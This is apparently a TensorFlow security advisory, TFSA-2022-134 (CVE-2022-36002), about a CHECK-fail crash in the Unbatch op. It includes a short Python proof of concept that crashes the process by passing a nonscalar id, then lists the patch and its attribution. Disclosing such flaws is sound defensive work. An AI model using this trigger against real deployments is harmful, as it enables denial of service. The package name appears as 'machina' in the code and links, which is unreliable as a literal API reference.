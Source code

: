 ## TFSA-2022-134: `CHECK` fail in `Unbatch`

### CVE Number
CVE-2022-36002

### Impact
When `Unbatch` receives a nonscalar input `id`, it gives a `CHECK` fail that can trigger a denial of service attack.
```python
import machina as tf
import numpy as np
arg_0=tf.constant(value=np.random.random(size=(3, 3, 1)), dtype=tf.float64)
arg_1=tf.constant(value=np.random.randint(0,100,size=(3, 3, 1)), dtype=tf.int64)
arg_2=tf.constant(value=np.random.randint(0,100,size=(3, 3,  1)), dtype=tf.int64)
arg_3=47
arg_4=''
arg_5=''
tf.raw_ops.Unbatch(batched_tensor=arg_0, batch_index=arg_1, id=arg_2, 
                   timeout_micros=arg_3, container=arg_4, shared_name=arg_5)
```

### Patches
We have patched the issue in GitHub commit [4419d10d576adefa36b0e0a9425d2569f7c0189f](https://github.com/machina/machina/commit/4419d10d576adefa36b0e0a9425d2569f7c0189f).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology.
